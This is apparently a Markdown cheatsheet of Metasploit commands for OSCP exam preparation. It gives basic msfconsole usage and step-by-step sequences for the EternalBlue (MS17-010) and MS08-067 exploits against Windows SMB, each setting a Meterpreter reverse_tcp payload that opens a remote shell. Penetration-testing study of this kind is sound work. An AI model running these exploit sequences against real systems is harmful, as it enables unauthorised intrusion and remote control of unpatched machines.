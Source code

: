 # Metasploit Cheatsheet

Essential Metasploit Framework commands and techniques for the OSCP exam.

## Basic Commands

```bash
# Start Metasploit
msfconsole

# Search for modules
search type:exploit platform:windows smb

# Use a module
use exploit/windows/smb/ms17_010_eternalblue

# Show options
show options

# Set options
set RHOSTS 192.168.1.1
set LHOST 192.168.1.100

# Run the exploit
exploit

# Run in background
background

# List sessions
sessions -l

# Interact with session
sessions -i 1
```

## Common Exploits

### Windows
```bash
# MS17-010 (EternalBlue)
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit

# MS08-067
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```
